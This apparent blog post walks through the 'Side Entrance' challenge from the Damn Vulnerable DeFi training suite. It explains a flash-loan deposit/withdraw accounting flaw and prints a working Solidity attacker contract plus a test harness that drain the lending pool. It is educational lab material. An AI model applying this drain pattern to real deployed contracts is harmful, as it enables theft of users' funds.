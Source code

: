```yaml
---
title: "Conquering the Side Entrance Challenge: A Damn Vulnerable DeFi Exploit"
date: '2023-11-21'
lastmod: '2023-11-21'
tags: ['Web3']
draft: false
summary: "Quick demonstration for a vulnerability exploit"
---
```


# Conquering the Side Entrance Challenge: A Damn Vulnerable DeFi Exploit

In the world of blockchain and DeFi, understanding vulnerabilities is key to ensuring security.
The ["Side Entrance" challenge](https://www.damnvulnerabledefi.xyz/challenges/side-entrance/) from "Damn Vulnerable DeFi" provides a perfect learning opportunity for aspiring
security enthusiasts and developers. Let's dive into the challenge and unveil a strategy to exploit this vulnerability for educational purposes.

## The Challenge Overview

"Side Entrance" is a smart contract challenge where a seemingly secure lending pool allows
for deposits, withdrawals, and flash loans. However, it hides a critical flaw in its logic,
allowing an astute hacker to drain all its funds.

## Crafting the Exploit

The exploit strategy is straightforward yet ingenious. By utilizing the contract's flash loan function,
we can deposit the borrowed funds back into the pool and subsequently withdraw them,
effectively emptying the pool's reserves.

## Implementing the Solution

Here's the Solidity code snippet [for the test](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v3.0.0/test/side-entrance/side-entrance.challenge.js) to execute the exploit:

```javascript
it('Execution', async function () {
    // Deploy the attacker contract
    const AttackerContractFactory = await ethers.getContractFactory('AttackerContract', player);
    const attacker = await AttackerContractFactory.deploy(pool.address);
    await attacker.deployed();

    // Execute the attack
    await attacker.connect(player).attack(ETHER_IN_POOL);
});
```
And here is the attacking contract:

```javascript

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract AttackerContract {
    SideEntranceLenderPool public pool;

    constructor(address _poolAddress) {
        pool = SideEntranceLenderPool(_poolAddress);
    }

    // Function to initiate the attack
    function attack(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    // This function is called by the SideEntranceLenderPool during the flash loan
    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    // Allow the contract to receive ETH
    receive() external payable {}
}

```
## Reflecting on the Challenge

This challenge is a stark reminder of the intricacies of smart contract security.
In the rapidly evolving landscape of DeFi, staying vigilant and understanding the potential
exploits is crucial for developers and auditors alike.


